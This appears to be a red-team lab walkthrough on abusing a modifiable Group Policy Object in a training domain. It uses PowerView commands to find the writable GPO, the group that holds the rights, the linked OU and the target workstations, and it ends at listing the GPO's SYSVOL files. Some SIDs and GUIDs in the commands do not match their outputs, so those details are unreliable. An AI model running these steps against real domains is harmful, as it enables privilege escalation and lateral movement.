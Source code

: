 # Modify Existing GPO

* Identify GPOs in the domain, check the ACL of each
* Filter for principal with modify privileges

```
powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-1304128723-2758812735-1929980917-[\d]{4,10}" }

`AceType               : AccessAllowed
ObjectDN              : CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107
AccessMask            : 131127
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed`    

```

* Resolve the GUID for  the GPO

```
powershell Get-DomainGPO -Identity "CN={827D319E-6EAC-11D2-A4EA-00C04F79F83A},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
displayname    gpcfilesyspath                                                                              
-----------    --------------                                                                              
Vulnerable GPO \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
```

* Convert the SID

```
powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

* This shows us that members of the "Developers" group can modify "Vulnerable GPO".
* Determine which OU this GPO applies to

```
powershell Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName
distinguishedname                         
-----------------                         
OU=Workstations,DC=dev,DC=cyberbotic,DC=io
```

* Get computers that are a part of that OU

```
powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName
dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
```

* Without GPMC (Group Policy Management Console)
* Manual method - Modify files in SYSVOL

```
ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     09/07/2022 12:40:22   Machine
          dir     09/07/2022 12:40:22   User
 59b      fil     09/07/2022 12:40:22   GPT.INI
```
